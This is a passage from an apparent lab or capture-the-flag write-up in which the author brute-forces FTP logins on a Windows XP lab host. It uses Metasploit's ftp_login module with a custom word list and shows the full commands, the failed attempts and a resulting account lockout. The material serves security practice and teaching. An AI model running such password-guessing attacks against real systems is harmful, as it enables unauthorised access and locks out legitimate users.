 As my suspicions were correct, I next decided to try the word list I had previously generated with the FTP server, in case the FTP server and HTTP server weren't using shared credentials for authentication:

```shell_session
msf > use auxiliary/scanner/ftp/ftp_login
msf auxiliary(ftp_login) > hosts -R

Hosts
=====

address       mac                name          os_name     os_flavor  os_sp  purpose  info  comments
-------       ---                ----          -------     ---------  -----  -------  ----  --------
192.168.1.11  08:00:27:12:1d:ed  192.168.1.11  Windows XP                    client         

RHOSTS => 192.168.1.11

msf auxiliary(ftp_login) > set BRUTEFORCE_SPEED 3
BRUTEFORCE_SPEED => 3
msf auxiliary(ftp_login) > set PASS_FILE bobby_words.txt
PASS_FILE => bobby_words.txt
msf auxiliary(ftp_login) > set STOP_ON_SUCCESS true
STOP_ON_SUCCESS => true
msf auxiliary(ftp_login) > set USERNAME bobby
USERNAME => bobby
msf auxiliary(ftp_login) > run

[*] 192.168.1.11:21       - 192.168.1.11:21 - Starting FTP login sweep
[-] 192.168.1.11:21       - 192.168.1.11:21 - LOGIN FAILED: bobby:Bobby (Incorrect: )
[-] 192.168.1.11:21       - 192.168.1.11:21 - LOGIN FAILED: bobby:TheXero (Incorrect: )
[-] 192.168.1.11:21       - 192.168.1.11:21 - LOGIN FAILED: bobby:Robert (Incorrect: )
[-] 192.168.1.11:21       - 192.168.1.11:21 - LOGIN FAILED: bobby:Bob (Incorrect: )
[-] 192.168.1.11:21       - 192.168.1.11:21 - LOGIN FAILED: bobby:Matrix (Incorrect: )
[-] 192.168.1.11:21       - 192.168.1.11:21 - LOGIN FAILED: bobby:music (Incorrect: )
[-] 192.168.1.11:21       - 192.168.1.11:21 - LOGIN FAILED: bobby:Windows (Incorrect: )
[-] 192.168.1.11:21       - 192.168.1.11:21 - LOGIN FAILED: bobby:TheMatrix (Incorrect: )
[-] 192.168.1.11:21       - 192.168.1.11:21 - LOGIN FAILED: bobby:DaftPunk (Incorrect: )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

No attempts were successful with the username "bobby", so I proceeded to try again using the usernames "bob" and "robert", but hit a lockout in the process due to too many incorrect attempts being made ("Unable to Connnect" == locked out):

```shell_session
msf auxiliary(ftp_login) > set USERNAME bob
USERNAME => bob
msf auxiliary(ftp_login) > run

[*] 192.168.1.11:21       - 192.168.1.11:21 - Starting FTP login sweep
[-] 192.168.1.11:21       - 192.168.1.11:21 - LOGIN FAILED: bob:Bobby (Incorrect: )
[-] 192.168.1.11:21       - 192.168.1.11:21 - LOGIN FAILED: bob:TheXero (Unable to Connect: )
[-] 192.168.1.11:21       - 192.168.1.11:21 - LOGIN FAILED: bob:Robert (Unable to Connect: )
[-] 192.168.1.11:21       - 192.168.1.11:21 - LOGIN FAILED: bob:Bob (Unable to Connect: )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

